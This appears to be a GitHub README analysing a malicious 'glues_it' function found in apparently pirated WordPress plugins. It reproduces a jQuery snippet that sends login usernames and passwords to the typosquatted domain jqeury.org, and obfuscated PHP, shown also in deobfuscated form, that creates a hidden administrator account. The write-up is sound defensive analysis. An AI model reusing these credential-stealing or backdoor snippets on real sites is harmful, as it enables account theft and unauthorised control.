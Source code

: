 # WARNING - Please Read
I did not wrote this code. I'm sharing it here for you to benefit. This code was found on a Wordpress plugin.

## Wordpress was returning an error which said like this:
```sh
Fatal error: cannot redeclare glues_it() (previously declared in ...
```

> We went ahead and did some research and found out that the person who was hired to edit the site of one of our old clients, was using plugins with this sketchy Wordpress function. We believe that these are premium plugins being pirated.

You can find the original piece of code here: [awful/glues_it/glues_it.php](http://git.io/vs0GD)

#### Update 1
> We still looking out what it really does but for the time being we told the site owner to get rid of the plugins with the function.

#### Update 2
The function code is actually written in Spanish, at least most of it. If you see words, parts of the code not making any sense, probably that part is written in Spanish.

#### Update 3
> We got rid of all those dots (something that the code probably does by itself) but we did it to be able to make it a little more readable, also after doing this, we had to make few fixes to make sure the code was the same as the original, just without all those dots.

Here is the link to the new file without the dots: [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs)

#### Update 4
The code makes reference to the domain "jqeury.org" on purpose to make you think you are requesting "jQuery.org".

Right after that the code does a request to the same domain at the following path:
```sh
jqeury.org/wp_ping.php?dname=wpd&tname=wpt&urliz=urlig
```

What does it does? I'm not sure, since my knowledge is limited on this, but maybe the code is requesting data from Wordpress ... something like the site url ... not sure yet what or why ...

#### Update 5
Take a look at "[jqeury.org/jquery-latest.js](http://git.io/vs0c6)" on line 56 after using jsbeautifier on it, this was the result: [awful/glues_it/jquery-latest.js](http://git.io/vs0c6)

At the beginning it looks like a regular jQuery Javascript file, but take a look at the lines 3349-3368, there is where the cute part begins. This file contains a script which "saves/sends (not sure if I'm correct)" the user/admin credentials using some method. I'm still looking.

#### Update 6
Here is the part that I'm talking about:
```sh
$("#loginform").submit(function(event) {
    passwd = document.getElementById('user_pass').value;
    usr = document.getElementById('user_login').value;
    domainis = window.location.host;
    urlis = window.location.href;
    $.ajax({
        type: "POST",
        url: "http://jqeury.org/wp_ping.php",
        async: false,
        data: {
            name: usr,
            pwd: passwd,
            dname: domainis,
            urliz: urlis
        },
        success: function(response) {
            num = response;
        }
    });
});
```

I believe that is getting the data from the Wordpress login form (user, password, site domain and site url) and using Ajax with method POST and in someway sending it to http://jqeury.org/wp_ping.php where probably the creator of the script is saving it to a file where it can be read and then later on be used to log in to the victims site. This is just a vague speculation of mine, since I'm just taking quick looks at this when I have time.

I also found out that on line 145 of [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs) that there is a possible/interesting point, take a look at:
```sh
$nimda_pw = call_user_func($object_quince_pim, 'php.resu/sedulcni/nimda-pw');"
```

If we read
```sh
php.resu/sedulcni/nimda-pw
```

backwards (that is why at line 20 of [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs) "strrev" is used, to reverse the string) we get
```sh
wp-admin/includes/user.php
```

I still don't know yet why the creator of this script uses that file, since both files (as of Wordpress 4.3) are identical, but maybe is using it to, in someway, to get advantage of Wordpress own code to accomplish his goal of getting the victims site username and password.

### Update 7
A friend noticed the following on lines 109-126 of [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs):
```sh
function wp_en_four()
{
    $object_quince = 'strrev';
    $object_quince_pim = glues_it($object_quince);
    $nigol = call_user_func($object_quince_pim, 'dxtroppus');
    $wssap = call_user_func($object_quince_pim, 'retroppus_pw');
    $laime = call_user_func($object_quince_pim, 'moc.niamodym@1tccaym');

    if (!username_exists($nigol) && !email_exists($laime)) {
        $wp_ver_one = call_user_func($object_quince_pim, 'resu_etaerc_pw');
        $user_id = call_user_func_array($wp_ver_one, array($nigol, $wssap, $laime));
        $rotartsinimda = call_user_func($object_quince_pim, 'rotartsinimda');
        $resu_etadpu_pw = call_user_func($object_quince_pim, 'resu_etadpu_pw');
        $rolx = call_user_func($object_quince_pim, 'elor');
        call_user_func($resu_etadpu_pw, array('ID' => $user_id, $rolx => $rotartsinimda));

    }
}
```

When we run strrev on this part of the code we get the following:
```sh
function wp_en_four()
{
    $object_quince = 'strrev';
    $object_quince_pim = glues_it($object_quince);
    $login = call_user_func($object_quince_pim, 'supportxd');
    $passw = call_user_func($object_quince_pim, 'wp_supporter');
    $email = call_user_func($object_quince_pim, 'myacct1@mydomain.com');

    if (!username_exists($login) && !email_exists($email)) {
        $wp_ver_one = call_user_func($object_quince_pim, 'wp_create_user');
        $user_id = call_user_func_array($wp_ver_one, array($login, $passw, $email));
        $administrator = call_user_func($object_quince_pim, 'administrator');
        $resu_etadpu_pw = call_user_func($object_quince_pim, 'wp_update_user');
        $rolx = call_user_func($object_quince_pim, 'role');
        call_user_func($wp_update_user, array('ID' => $user_id, $rolx => $administrator));

    }
}
```

This finally confirms the fact that an account with full admin privileges is been created when the plugin is installed and running on the live site. This will enable the code creator to login without any issues to the Wordpress site.
